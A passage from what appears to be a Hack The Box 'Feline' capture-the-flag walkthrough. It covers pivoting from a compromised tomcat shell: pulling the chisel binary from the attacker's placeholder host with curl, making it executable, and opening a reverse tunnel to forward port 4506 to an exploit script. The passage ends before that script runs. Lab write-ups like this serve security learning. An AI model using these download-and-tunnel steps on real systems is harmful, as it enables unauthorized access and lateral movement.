 ``` bash
curl http://<YOUR TUNNEL IP>/chisel -o /opt/tomcat/work/chisel
```

 ![](/assets/images/htb-feline/15_feline_chisel_upload.png)

 >**NOTE:** This directory may seem like a strange and random location to put the chisel binaries. I've chosen this because the tomcat user has limited access to write in the file system. Not even in the user's /home directory. When trying to write this file to /tmp it works, but it will quickly be removed as there appears to be a job clearing out tmp, similar to the one cleaning the site uploads directory. And so, I was left with finding a folder location where I could write the file.

 You will also need to make the chisel binaries executable by running the following command.

 ``` bash
chmod +x /opt/tomcat/work/chisel 
 ```

Now from our attacking machine, we will start a chisel reverse tunnel on port 8008 by using the following command.

``` bash
chisel server -p 8008 --reverse
```

![](/assets/images/htb-feline/16_feline_chisel_reverse_start.png)

In line 293 of the exploit script, we see that it will target port `4506`. We are now going to connect to our reverse tunnel listener and forward port 4506 through the tunnel. On the target machine shell, run the following command.

``` bash
/opt/tomcat/work/chisel client <YOUR TUNNEL IP>:8008 R:4506:127.0.0.1:4506
```

![](/assets/images/htb-feline/17_feline_chisel_connect.png)

We can now test the script by running it from our attacking machine using the following command.

